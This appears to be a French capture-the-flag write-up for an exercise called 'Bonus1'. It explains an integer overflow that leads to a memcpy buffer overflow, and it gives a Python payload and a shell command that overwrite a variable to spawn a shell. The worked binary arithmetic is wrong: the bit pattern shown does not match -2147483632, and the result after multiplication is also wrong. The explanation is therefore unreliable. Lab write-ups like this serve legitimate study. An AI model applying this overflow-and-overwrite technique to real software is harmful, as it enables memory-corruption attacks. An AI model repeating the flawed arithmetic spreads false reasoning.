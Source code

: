 # Bonus1 - Integer Overflow

## Contexte
Le programme prend deux arguments :
- Un nombre qui doit être inférieur à 9
- Une chaîne de caractères qui sera copiée

## Vulnérabilités

**Integer Overflow**
- La vérification `nb > 9` est effectuée
- Un nombre négatif peut passer la vérification
- Après multiplication par 4, le résultat peut devenir un grand nombre positif

**Buffer Overflow**
- memcpy utilise la taille calculée sans vérification
- Permet d'écrire au-delà du buffer alloué

## Exploitation

**Calcul de l'Integer Overflow**
- Valeur recherchée : -2147483632
- En binaire : 1000 0000 0000 0000 0000 0000 0000 0011
- Après multiplication par 4 : 0000 0000 0000 0000 0000 0000 0000 1100

**Construction du Payload**
```python
# Premier argument : integer overflow
"-2147483632"

# Second argument : padding + valeur cible
"A"*40 + "\x46\x4c\x4f\x57"  # "FLOW" en little-endian
```

**Commande d'Exploitation**
```bash
./bonus1 -2147483632 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
```

## Processus d'Exploitation

1. Le nombre négatif passe la vérification `nb > 9`
2. La multiplication par 4 transforme ce nombre en valeur positive
3. memcpy copie suffisamment de données pour atteindre var_3c
4. La valeur 0x574f4c46 est écrite à l'emplacement de var_3c
5. La condition est validée et le shell est exécuté
